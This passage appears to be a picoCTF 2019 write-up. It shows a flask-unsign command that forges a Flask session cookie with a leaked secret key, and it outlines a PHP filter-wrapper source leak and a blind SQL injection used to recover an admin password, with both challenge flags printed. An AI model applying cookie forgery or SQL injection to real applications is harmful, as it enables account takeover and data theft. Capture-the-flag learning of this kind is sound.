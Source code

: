 Now viewing `Your Todos`, we get the `secret_key`, `'11e524344575850af46c19681f9baa0d'`. 

Now we can use a [flask cookie encoder](https://github.com/Paradoxis/Flask-Unsign) to generate our desired cookie.

```shell
flask-unsign --sign --cookie "{'_fresh': True, '_id': 'da00c2f44206c588ee050cd3e467e96d1ccfbd7f121c497442c70e7e7ad0cd08c1f7c8e967301b5beb1740d0c35dc5cc9ff421d0c0914a30a91364c5e35bc294', 'csrf_token': 'ab946d3f256cc7eafed0821f8a70aa18c63f620b', 'user_id': '2'}" --secret '11e524344575850af46c19681f9baa0d'
```

Injecting the output as the cookie and going into `Your Todos`, we get the flag:

`picoCTF{cookies_are_a_sometimes_food_404e643b}`

## cereal hacker 2(500)

### Problem

>Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195

### Solution

*TODO*, but was essentially using a PHP filter wrapper to leak source code, get credentials to a mySQL server running on the picoCTF shell localhost, logging in, and doing a blind SQLi to get admin's password, which was also the flag

Flag:

`picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}`



